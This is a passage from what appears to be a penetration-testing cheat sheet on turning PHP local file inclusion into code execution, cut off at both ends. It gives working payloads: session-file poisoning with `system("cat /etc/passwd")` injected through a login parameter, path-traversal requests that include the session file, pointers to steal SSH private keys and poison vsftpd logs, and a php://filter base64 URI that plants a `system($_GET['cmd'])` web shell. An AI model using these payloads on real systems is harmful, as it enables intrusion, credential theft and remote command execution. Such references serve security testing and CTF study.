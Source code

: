 ### Via PHP sessions

Check if the website use PHP Session (PHPSESSID)

```
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

In PHP these sessions are stored into _/var/lib/php5/sess\\_\[PHPSESSID]\_ files

```
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

Set the cookie to `<?php system('cat /etc/passwd');?>`

```
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm2
```

### Via ssh

If ssh is active check which user is being used (/proc/self/status & /etc/passwd) and try to access **\<HOME>/.ssh/id\_rsa**

### **Via** **vsftpd** _**logs**_

The logs of this FTP server are stored in _**/var/log/vsftpd.log.**_ If you have a LFI and can access a exposed vsftpd server, you could try to login setting the PHP payload in the username and then access the logs using the LFI.

### Via php base64 filter (using base64)

as shown in [this](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64) article,PHP base64 filter just ignore Non-base64.You can use that to bypass the file extension check: if you supply base64 that ends with ".php", and it would just ignore the "." and append "php" to the base64. Here is an example payload:

```url
http://example.com/index.php?page=PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.php

NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

### Via php filters (no file needed)
